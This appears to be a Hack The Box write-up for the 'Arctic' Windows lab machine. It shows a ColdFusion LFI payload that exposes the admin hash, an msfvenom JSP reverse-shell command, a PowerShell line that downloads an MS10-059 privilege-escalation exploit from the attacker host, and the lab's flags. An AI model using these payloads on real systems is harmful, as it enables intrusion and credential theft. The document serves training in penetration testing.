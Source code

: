 ```yaml
---
layout: post
title:  "HTB Artic Windows"
description : Tools and techniques used, LFI, hashkiller, jsp-shell
tags: HTB, Coldfusion, hashkiller, windows-suggester
---
```


# HTB Artic
# Recon

```ruby
Nmap scan report for 10.10.10.11
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
# Exploitation
* We noticed that port `8500` is open.This port is used for Adobe ColdFusion.
* We investigate further and we find a web app running.  

![](https://lh3.googleusercontent.com/MPpzTT1fUn_dnDqNFBouPgLrdpz42g_boV6kvtZ3zSICG9i2U-lt3006mkvihoNRm1oSaCHCi8iBmigihL0GfaSm95zNPU9BHLXOcgWb42UHFa_SHej_z9aegRpYcXxP_7n-AlseZt0y055LAPkdgum54nA9qfedtkcGDvXg5bRRPjn59IJtWHyI4QUommXcHA3jauzjo0XfeURw-k-rkL4dEMFmqE55yBRYW288P-Fzp6pB-f38WCBYo2c6-5lLHwVo4QdGCV05ddO7O2yn-xBAV0H-YHQvhaUpQ1CK-roJG0TA_QPONcsTi0NfLvtQwD-MPRswxMdSEPOASC2h1UD4C8NgvERwo8IuruMzy1S2j_aemAmaWLKvxYvQqe7Y83KFa_sfS7IwAetqCKdKbwSMXHWwy1aK1_eWIKWvmVncDqttJKd9OBjq8f6O8IFeNUeCnIfteEXLN4upff6w_dlw7fgcK2z42pEoE1VwRKFsqt5oUMN868TWmQp5EXI3cTGPstS_4zesKMIL_4Mm4hJaY11iYfJt8VYBhTSZB5zo6s-TgW2JU7JwwLI2pq4dC6VMNTZot-Uok4yJLrFsU8i_XQ9Jry6L5YDZBNT76Q6kwgXb2_2M1blO-8SgxhxZUK_z3ezZ8dZTUT8z8jueFt81cjDjutQwZ0Ct50GPVkg5bYl1AaNRRTo=w404-h195-no)

![](https://lh3.googleusercontent.com/1q7e_7yA20GcWefxFljf6vTMus6fJJgTnPKexMrJzFkmB23569xCcwDCI-BxlgO6VorvW1AHHx6WVy8XmLIZIjJDL6T5xcCNhMInaAcYMjI4yqc_LX1ma3krqMY-ODBUBJiGPoYYd883g3XdbqpNfEyGGntGnAvMI94h4r5hgPHo5sfcq4c24qGRygvGLgyy6to6V8Nr3zzGft3GdkfwzND_ZbkpVE_MMiyd0xAWCw_qp3xMIhIpOJjOmV0gGFXuoZtynOWAG7TkAmmAcuLjaqluMPPvYrSxgllQ1bcxYN1pm3geTJ3g3fU69Te6oESiQ9bcLfNOx0DJCxwWtKbhASc7YjjSnU-s-sx-kyl3c55zerlWuJAbEG8_u3aTIfBMOIpBR6rYNQL41UTrMhaCZpwyz1eopzxKtwexZTSBJSqIPgqB3EO3kmCKrBpoe1EZA7nlQh6sjE36lYxnVtzYAIdlRMUewU8yjhLAuXfTbFoJ4yUNZjo10iYnB785EZLzy3XpoHX1a6-tbzV8W3A8Htfa4kvGShj_BiuzEBiK9gl_wrEM1KolRwPToOc9h16EBtJm1F6ATh7Fl3xW8ugovrClcC6w7kL1-IMg0EWyFQC7yffOk-qisVZ7elliubcFO_CoKbygVv0hDn6MO9yq_AppdbZlf23kzdIiDhSboVBc2O98H56vJO8=w523-h297-no)

* Finally we we're able to locate the admin page. This provides us with very important information like the adobe version running.
* Some googlefu reveals that this version of Adobe is vulnerable to LFI.
- PoC:
```
 http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
```
* So we exploit the admin page to obtain the password hash for the admin user

![](https://lh3.googleusercontent.com/A22EMJ2VPNOYLkGD_fhb8FZODYdwUEF70hiMtKuMPrsFMN2QRrQtiYPrAZPp33oKbh9SUpP9jrDgC_x1KTXY20qqHWWSxcLOL9lrfkiIFqDUSY5CJYu7btbqeHQv82NtXIUW8nzVwX4ZGPfB3dgKSYXyL6QVwqA17I0fRlCcTtMt1LYZoduWkLrUmSsIPys0w-vFox_2FgaB2kakMItBT9Lby4AhQRMGvCfR4CurxMxkSbDohkio8qD54I4Z-aWAxZMdAf9PQzJXxcqLg035_M0_zhpZ30HVVYW3iFZ0I5oC7gPzxmUWESbbEgjgOmfQrowb3VQP2GEK9f-jtYBELSeDJ2KIs_OQ637jWgZQ2zu6L1PRtiOY7ah3QtscgFKicn52Q29XYw059K_SZX3sKJpPq-HwbnO2RuQJhjH1v7kvqm7XRiy35PKM7lA-bKZoBwLeDj54Gm48pQicOGWjWf8780LePz9-5GEQqjBK8JA1z4Pl6oq5rDVbcv5wz3HUnrZCYZjbVbwFnMhxmfOEvkY6tPg1eKtHjA4DoaqFIh0Zf2c-FMiN4wvwpE3g2Vs8v765muJEwQAWcFm5I3ImRUIxQ-7fw_qiuwFSnWbGeTjQnL58sJ63natllTMtoOW5mwXS754quSI4PP95T2H2bdJhwVRQngAqL6Vc2u0AS6b7znw0IGxv4yI=w520-h464-no)



* We crack the hash using a cracking website `https://hashkiller.co.uk/Cracker` and we our SHA1 password `happyday`

* We login using the admin password

![](https://lh3.googleusercontent.com/a0jn07Idy0VE8z77tsRLB2OsJdk07-9WyiXiFDOAAMECzfW5yClAyQDBtR911AtC2hMcV0HXk9CfnRwfl6OV_Xxdn-UGHlsrFArhFATwdMwOmobatWaPjsJFaSDpRPVnWmDWYRdokCne1PJXcR_fx-OOQce5W2mCNqYmyu2qzF4eYyQPfXzukDhDkIS2Sn05EYpeNa8C0spY-J08tPVIryxPWDs5Ddb1WvKqCRT7gWYPT0Aml-LQ5Ofq2bDFrhhwtUQOu2V9FYS84p06CV7DWuxGqtRV5sR5MHDTnnoWvawDyT2MeRG_uDlFL0JfEIx7A4_zVyifA3F9GPbSzG9pUUdPh26IWJZQKDRRNZXjo7ZqbdWnVtFVEC0JNFUqQqe3PR8vs2eIGN3aDpKo-_SVPUL44myOU8zr1EKqr5uSR2gNiPmB-P-2F8p5OY5FS54owfScwuJsyNh6TcR1_kpX4uLrjgVfVoz5GBjORHaXPbKPWh2yNlMipSRk30mUafo1ObJIw-ZCy5nWHW2dTw-r6Qy4kJzRdkPHAcvSkRN3lkXvtkkbTpS_IhS8FiBSd8-TvFf4k7hktXmIqVonquQY-82uhQOQhkj9fkJJZDdbce304fs__zSyT9QOCH43ZLQt3nJn4cCW3JXUhE9SMfaXfN6eVOtWZMbWSJT9iJbbAjVIKXunlUQXyvw=w601-h491-no)

# Exploitation
Once on the admin panel we choose scheduled tasks option from inside Debugging & logging for scheduling new task.
![](https://lh3.googleusercontent.com/LEq9ySUtSZiercJCBL1BhGUM9G7a3DF87T01ALBPnrg0Y6Q8lNkOuI-g0MuHjsu7p6A8kI4PsGmE8SjA_55jN8gHCOBKUIfXGAx9S3FYQyA0HTyV5qTZhYVAHj82MV4yn1QREOS9xrzSXy0IzIb32OGlRzcr_sEnFlpKG0eLEu77-dwmBaflfRN86vNzAvUu6OCrEsu0v4rSZYlfR9ysxs1X-qNDFzRQtFg7xsyRrZxsuFugvxhWv72kbzQDCV8_ry_4BAjw4gWgNOMM9DP-3AOKhi9LqD3dK3ru-HC2wRvZ-UAQMUVmwdHA2rbn9zH6O6HHHW-FG8FEqDgvW5U-EFxBiMvlmYQGlBRSPe1ru3t8aEn-pqOa39uOXLpPvw3N3dJNpSVJKHseXkR0OwfHVI_j6pcf2cPn_zIVIddDX9Vf3Hb4OmWxIz8iiHz84gtc4Q-sNaOSyd0RbeQqnAtxk5LrZVzvP3wd2VlC6daMVmy_I6qUc_4c2MV-mhKPrqQOBNx0KpNK-LY-d42bwa0Hw47v2D9d2hcOSr2a2mgWAnDMgJmJWpWxBpqLLUPuMwwpLQsq06IBT_KkT6VZoKHgq6xeKggKrOmKDsQR3yGHWS1u7VxH-r1HWQSnAv_iBG1lU-H5NnSftPZ7uzOGmByit4fBl5Kzf8YkqxNHVSqDF8iNKgjGujK0Xwk=w660-h411-no)

![](https://i1.wp.com/2.bp.blogspot.com/-LjTRFFM_1ro/Wr-nXwWY4mI/AAAAAAAAV5I/j392zbTSVSAnnxhTwrWklhQL0hizsgLiQCEwYBhgL/s1600/9.png?w=687&ssl=1)


From the schedule task settings we can upload or .jsp shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to
Connect On> -f raw > shell.jsp
```
We set up apache to serve our payload.
![](https://lh3.googleusercontent.com/Min2o6TIiNxI-w_6sZkca7T7KNOT1fNgjn6feJlQS2vkgQie689AejBaHHqejyQY-nFFpENPqcZ1DP4AVNFNkXg8_i0dC8sH0R_4wLjGEzn2r--p4UO3nANVgF5K7wUDqk-9PhUalvrVhRqZ5AUPOuM8blGw8xOicCz-FmtAYOaz1yLvAjCwC4qcZVnUUKLW9Spw3cbbcjRWvHtdgCeOpwRhMHKv5lRYu64cgp-ie_qWsFudR8CdHKVJHrm2VopUUgw3QyZY6bnrZu3LZLIlvaCsVTVPnQbszTmlaRcbwxxAg1pjzE0j8IarAgQuHq64pUlTRLXXTWDlCmPO1FpWIgldozhU8fqu7Gb3it-OStT-s15EHto_2afBh9kj08qj87rKy-iPYwijXt9lO9niZj8Z9aQ7xv4P497XaSm9oa9XwbwPfOKwLJKUbhuOCcXdpCX1tWBxqSddzWikNaFk-3QW92MbfxTCHxdPCPO3u9M3M45q2ACNrQ74zLefB-OLPnmWHEEK_pocCa5wDgBTLZek0_xSCLt_x7w0YyttR-ZkJzFVtOXaL_xlYlTaaERRFQoBdzpYb_xCc2-vacEkzyoRwJIvQPmQAsraTStiZOsafDPq-U0ebr-2XHg1G1kXDGs-tQaYY67jBu0JYLv5gbqjLzT03LGvU7znxeBUjxC9r2g41pY0u7o=w1027-h245-no)

Then we proceed to run the task so our payload can be executed
![](https://lh3.googleusercontent.com/veug3uR-KmVK52EuD7-30Ogj9fDcl5kKRq09M3GFg0kCYbjVrbqFxa5TRIdM3YQuWK_1f_s-Y1oeXgl3XT8IRIuDkrsblzW6ph5IC8jwPFmy8HlzTCdr69PdeWqfLr4xEUqdvzvdRnFlj6S4-JvlMKy7tPQVpmb9EmKWoMhRVH1ydrHKb-3CdqD0hOn-v_70n-SwVHiH_amiu5ZKzhRntirWYNadxOehED8INqiXltTb6FQCyX0mLf9bwDyhwkKDo62WqTELPqXmdeRb5YGYATRqLqHKTNw85eIwerUaacgw9NrfpiWbfcvtGrYzAGogC661qTV9k2ljwWrvmr-YJApEo77rVe-lSR4w9yc_AGDqfuBjkqpAk7SbGEzN0VFr3TYBuxOsFe2fnk_yBqCa2jfSVGlmmJ3eqhWl0l9VqcnSpQnJjvLLS2cumQm_czk1jQaTzi5L-zbEfuB4YWzSbtvc073MWyGJrMFiBAsoc1HRvsz0hrqCo2Uwp9C7yrK-w03YCauhxuA-iZiIcGqv_V9zED0bdMkxG6UIVBrEBMdcTZbIhUbXN22TOmyVctxcl6G_rzmpaoBslO4r1IHBrXw1JTeRh-ONNsVkeet4FS_aINDcThry4-qgQ7eKRx918zFAfKWl9Du7QPozdLVkoBMLKGwu54sRuZgYof_NTBzjrrw9V1O3fzE=w611-h256-no)

Finally, we set up an nc listerner and we catch our shell.
![](https://lh3.googleusercontent.com/W__r2reVLTX0-3dTnY1fHPVfnwnJnCudwSOdykpYWPwjtPnY9eeqNDYvmPvRKWiK3A7rk1v8vCi2aJTdacu0mqswn2NJuD5fXbcqSGmSQVn8DFfhq5XBqOpyYh8M8DREdpeW3_Tz0L8fV9ZtIcgIce_D83SYhDyXgCqh9l3bCUbjPPS2hgzqnmc4lEniZqf_H1az5vrXe_b5z5kt1sSGbhtbMrmANvjIqDswKKOFfECRsImNYwQhWN_h2cECwoh9ZSbdmLSsGL1YWLeO5Ul_HyflbSE1RReHm4U2Myc_D2D6Slmw_xMUNhfAdttVj66vy-Ve1oyY0QER_zDMEuoKvrYdI7ySFZrp7yJ7ZKSkJiCe1huswyJAHvyeE4fdNU8ffRdWiWMooQFD3aHcSx1vi3YyDqmOWhzsjWrkrsUzdqhOWUC-N86nnVxWhcUFV99yhc7sShtymX9xES1mFKtPdUpwdMbG0PNMbSTpZx6chrAQKZqM36IfGUjkx6fDwsJFCQDp4VHp10-4CrGU1W4PsL3Vo7imPTZfDQ1mwHm2mZDyE6cddXMojT2nB6GhU5AKkTUL9GQpqllKyfsHJ1UU1SQ4WjvJW74OKso5Nf2CAHHw9Psa5lPQXGNAc-Z-oRFznWSL6nGYXC6bQdoPhwTxGb4SwyB7sJiik-h_6Tvn4ECV3foiSMLWsmY=w671-h230-no)

# Privilege Escalation
We run windows suggeters and after a lot trials and errors I find a suitabl exploit
* MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799)

```ruby
python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo
systeminfo.txt
```
After some google I find a compiled version of the exploit, we dowload the file and run it
```
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.14/
Chimichurri.exe', 'Chimichurri.exe')"
```
![](https://lh3.googleusercontent.com/epn8X8AntKErOlKnNUuVw1nK6LXq32S5kuCC27WqFVE21wmFWkCB0jYswzA_R7FE_VySFOnC35HPiUsp-WdXHusyJfK8T8kl2gqw3GX0pcEIf9Dsnq4E26YeIipm-09eV3ChIW3-hsAe_iKKLQ1JGDNB6bd5UYKIujfoZwlfk5db_H9YIIrggCJz0fWKfkXOd9toqrK2TimuVtTkUYC8VEJHTeCE0GMTICabHeERzM1chvTHUsR93mbj3_JsTOrK3xpWlUcKpxcxssonCXrQwNO82yWvsRP15n5eWa7OYMD76iDbi8aAfUr1b2TdlNaHdIl3Js7C4SPv4cpWd46WBt640jSm2hC8F8Kf61FqjzTPIhwvRRiyQRxMdqnNttv0Wepn1fQ3VNd5EMo67kDP6ZEAlVtbutI6FpZ3SdFhr0F0jawrgxTEvh6QdoyVE7e-Mj_IxJDJYPcA-_f8hAv0_Zi-7H09pMAL6zt-BGCqCe5-4pydPNOQi7pZuRff1KKChiv8SlawqG1-G5V6O0INztk4vxIJTUFCLTfK8GQXi2A-XOtuCwMJgNX0PgfyS4HG1TyVxrli9YE_32uTj8dUnMRlkY_7a8vlKe7Oty-_b4sJ2g66fCSVZx5PlhO8vvNOsempaSCwGl6U9r9GIy6m7fM7IikramDNYbZHfKB5BPqrrFawAk-La2M=w1327-h497-no)

![](https://lh3.googleusercontent.com/diUlDO3Ebgxfj1_edvI_NVTUb5dJNV_ffuJ_cUVOToqr3JwXpfRmx94DtSnrxXSL2w4QoG7h5hZIt468Lg_btTvVgQGA4AU-7wN9FoYz1IKx4bG_0GknHdZYQh0Oc-YQXdEHYnUaAPt7dVcNxGhzUdRkAi06ZzZDrBWUwzG45yRbbMpq7IZe5x7Gc6GUx8HIs9qHi__LjFqgQQhmBsiwuIGGYT0_dSTG5xvdAB1JLNte7YUZ5FaDzdMWRNQWUO5ExoD_G9hm27znUO_sAttyJkS2o_B1c6zHB3brIkJMgot6GqvJJuiIG__CRkZJ7q5_m32jCjFhqagmpIhl1XkXYJKMLKLq6b6UXu3lpWQoAUV7kU5z1nJ0BD1ztKnRFToZTewG0rc6aCTJHF0O8w_G28KMLtS5_786lodnceDdEEIzh4kf5h_JxsbZjSXiFTPlCwQUU_tZb8HJwQxsYdnWTkm7GMcluG_0z68Bt5vmrToLJ6v_r2eXjmPyxSRh1-6ZwSTv9MvKD0jcaxBzVYtiU_Pivk-VzTrOrtqNNNVZTCQhx22OlXlRV-0-A_FeTvPAa2tzLYjsLQ3EvIgUBLOFMQkKCdcRZwR7lGK2LCtJDDgcr8xlj9rIVOS3djjGKJETRLspPm_54KCkvhX3XbRnDAwMSL6a-ZgmPQXNzyHCLNh_xbk6Gut-8TM=w640-h466-no)


# FLAGS
```ruby
USER "02650d3a69a70780c302e146a6cb96f3"
ROOT "ce65ceee66b2b5ebaff07e50508ffb90"
```

